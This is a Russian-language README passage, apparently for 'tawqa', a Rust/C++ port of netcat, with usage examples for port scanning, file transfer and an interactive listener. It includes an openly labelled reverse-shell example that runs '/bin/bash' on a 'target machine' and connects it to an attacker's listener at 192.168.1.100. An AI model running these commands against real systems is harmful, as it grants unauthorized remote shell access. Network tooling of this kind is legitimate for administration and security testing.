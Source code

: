 ## 🚀 Примеры использования

### Reverse Shell (Rust версия)
```bash
# На атакующей машине
./target/release/tawqa listen -i 4444

# На целевой машине
./target/release/tawqa connect -s /bin/bash 192.168.1.100 4444
```

### Передача файлов
```bash
# Отправка файла (любая версия)
./tawqa_cpp -l -p 4444 < file.txt

# Получение файла
./tawqa_cpp 192.168.1.100 4444 > received_file.txt
```

### Сканирование портов (C++20 версия)
```bash
# Сканирование одного порта
./tawqa_cpp -z -v google.com 80

# Быстрое сканирование
./tawqa_cpp -z google.com 22
```

### Интерактивная работа (Rust версия)
```bash
# Интерактивный сервер
./target/release/tawqa listen -i 0.0.0.0 4444

# Локальный интерактивный режим
./target/release/tawqa listen -l 4444
```

## 🛡 Безопасность

- **Rust версия**: Memory-safe код, защита от buffer overflow
- **C++20 версия**: Современные практики C++, проверки границ
- **Гибридная версия**: Автоматический выбор наиболее безопасного бэкенда
- **Все версии**: Опциональная функция doexec отключена по умолчанию

## 📄 Лицензия

Этот проект является современным портом оригинального netcat и предназначен для образовательных и профессиональных целей.

## 🤝 Вклад в проект

Проект открыт для улучшений и предложений. Основные направления развития:
- Добавление новых протоколов
- Улучшение производительности
- Расширение функциональности
- Портирование на другие платформы